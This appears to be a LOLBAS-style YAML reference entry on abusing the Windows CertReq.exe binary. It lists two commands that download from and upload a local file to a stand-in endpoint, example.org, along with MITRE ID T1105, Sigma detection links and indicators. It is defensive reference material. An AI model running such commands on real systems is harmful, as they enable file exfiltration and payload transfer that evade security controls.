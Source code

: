 ```yaml
---
Name: CertReq.exe
Description: Used for requesting and managing certificates
Author: 'David Middlehurst'
Created: 2020-07-07
Commands:
  - Command: CertReq -Post -config https://example.org/ c:\windows\win.ini output.txt
    Description: Save the response from a HTTP POST to the endpoint https://example.org/ as output.txt in the current directory
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
  - Command: CertReq -Post -config https://example.org/ c:\windows\win.ini and show response in terminal
    Description: Send the file c:\windows\win.ini to the endpoint https://example.org/ via HTTP POST
    Usecase: Upload
    Category: Upload
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\certreq.exe
  - Path: C:\Windows\SysWOW64\certreq.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_lolbin_susp_certreq_download.yml
  - IOC: certreq creates new files
  - IOC: certreq makes POST requests
Resources:
  - Link: https://dtm.uk/certreq
Acknowledgement:
  - Person: David Middlehurst
    Handle: '@dtmsecurity'
---
```

